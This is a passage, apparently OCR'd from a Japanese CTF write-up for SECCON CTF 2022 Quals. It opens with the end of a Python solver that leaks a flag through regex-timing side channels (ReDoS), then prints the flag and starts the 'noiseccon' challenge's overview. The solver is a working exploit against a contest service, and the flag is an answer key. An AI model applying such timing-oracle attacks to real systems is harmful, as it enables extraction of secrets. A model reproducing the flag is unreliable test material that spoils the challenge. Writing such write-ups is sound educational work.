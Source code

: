 ```python
    ])
    return f"{index} regex {expr}"


CHARS = "_}" + string.ascii_letters + string.digits

flag = "SECCON{"
while not flag.endswith("}"):
    left = 0
    right = len(CHARS)
    while right - left > 1:
        mid = (left + right)//2
        t_left = get_time(get_rule(len(flag), CHARS[:mid]))
        t_right = get_time(get_rule(len(flag), CHARS[mid:]))
        print(f"{t_left = }, {t_right = }")
        if t_left > t_right:
            right = mid
        else:
            left = mid
    flag += CHARS[left]
    print(flag)
print(f"{flag = }")
```

### Flag

```
SECCON{reDo5L1fe}
```

## [misc] noiseccon

- 22 teams solved / 197 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/misc/noiseccon

Description:

> Noise! Noise! Noise!
>
> ```
> nc noiseccon.seccon.games 1337
> ```

### Overview

ncで接続すると、`scaleX`と`scaleY`のパラメータを聞かれ、それに答えると256x256の大きさの画像のbase64が返ってきます。

```
$ nc noiseccon.seccon.games 1337
   _   _       _             ____                           _
  | \ | | ___ (_)___  ___   / ___| ___ _ __   ___ _ __ __ _| |_ ___  _ __
  |  \| |/ _ \| / __|/ _ \ | |  _ / _ \ '_ \ / _ \ '__/ _` | __/ _ \| '__|
  | |\  | (_) | \__ \  __/ | |_| |  __/ | | |  __/ | | (_| | || (_) | |
  |_| \_|\___/|_|___/\___|  \____|\___|_| |_|\___|_|  \__,_|\__\___/|_|

Flag length: 21
Image width: 256
Image height: 256
Scale x: 1
Scale y: 2
UklGRoo7AABXRUJQVlA4TH07AAAv/8A/AM0ABDHgf9pA... snip (base64 of an image data) ...5SImJZRsMGAA==
```


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。